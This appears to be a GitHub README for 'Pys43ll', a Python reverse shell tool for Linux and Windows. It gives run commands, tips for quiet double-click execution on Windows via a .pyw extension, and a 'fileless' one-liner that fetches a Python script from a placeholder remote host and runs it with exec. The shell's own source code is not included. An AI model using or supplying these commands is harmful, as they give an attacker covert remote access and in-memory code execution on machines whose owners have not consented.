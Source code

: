 # Pys43ll
A Python Reverse Shell that can be used on Linux and Windows.

# Remember

The use of Windows requires Python3 installed. Remember to add the IP Address and Port of your choosing. On Windows the file can be saved with .pyw to allow a double-click execution.

# How to Use

Windows: 
```bash
.\pys43ll.py
```
Linux: 
```bash
python3 pys43ll.py
```
# Fileless Approach
```bash
python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/filename.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
```
